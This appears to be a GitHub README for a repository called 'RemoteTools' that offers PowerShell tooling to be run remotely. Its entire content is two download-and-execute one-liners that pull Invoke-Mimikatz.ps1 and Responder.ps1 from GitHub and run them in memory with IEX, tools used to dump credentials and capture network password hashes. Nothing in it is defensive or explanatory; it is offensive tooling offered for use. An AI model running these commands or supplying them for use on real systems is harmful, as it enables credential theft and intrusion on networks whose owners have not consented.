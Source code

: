 # RemoteTools

## These are configured to be run via powershell remotely.  

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

